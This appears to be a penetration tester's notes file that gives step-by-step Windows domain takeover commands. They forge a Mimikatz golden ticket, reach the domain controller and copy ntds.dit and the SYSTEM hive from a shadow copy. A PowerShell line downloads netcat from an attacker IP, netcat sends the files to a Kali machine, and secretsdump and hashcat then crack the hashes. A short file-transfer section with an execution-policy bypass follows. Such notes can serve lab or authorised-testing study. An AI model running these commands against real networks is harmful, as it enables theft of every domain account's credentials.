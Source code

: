 To create:
kerberos::golden /domain:Morrowind-West.province.com /sid:S-1-5/rc4:0f193cde5e5e9765366534e4da178564 /id:500 /user:kali

Pass ticket:
kerberos::ptt ticket.kirbi

Now damage:
pushd \\Morrowind-West.province.com\c$
cd Windows
cd NTDS

We can now access the ntds.dit file and extract the passwords as we are inside the domain directory, Once we have this file we have access to every account in the domain.

Perform shadow copy:
vssadmin create shadow /for=C:

Copy from the shadow directory into tmp
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit
c:\temp\ntds.dit

Also copy the system config file
copy\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\SYSTEM
dir

We now have a copy of ntds.dit and the required System file to decrypt it.
We should now start extracting it on kali linux so we must move these files over, one way we
can do this is by putting netcat on the windows machine.

- popd   (This is so that it will allow us to use netcat correctly)
- cd \Temp
Windows- powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.8.0.131/nc64.exe', 'c:\Temp\nc64.exe')"
Kali- nc -lvnp 4444 > SYSTEM
Windows- nc64.exe 10.8.0.131 4444 < SYSTEM
Windows- nc.exe 10.8.0.131 4444 < ntds.dit

Now that the files are safely on our kali machine we can begin cracking. We will use a python file called “secretsdump.py
cp /usr/share/doc/python3-impacket/examples/secretsdump.py

sudo git clone https://github.com/SecureAuthCorp/impacket.git
python3 secretsdump.py -ntds ./ntds.dit -system SYSTEM LOCAL -outputfile ./myhashes.txt

hashcat -m 1000 myhashes.txt.ntds /home/kali/rockyou.txt -r /usr/share/hashcat/rules/dive.rule

```
### File transfer
```
Section 2 – File Transfer (Windows and Kali Linux)

Note! Make sure file location is in safe directory or in /var/www 
Note! May need to run Set-ExecutionPolicy Unrestricted OR  powershell.exe -ExecutionPolicy Bypass

#HTTP

Kali Linux Machine
Python -m SimpleHTTPServer 80
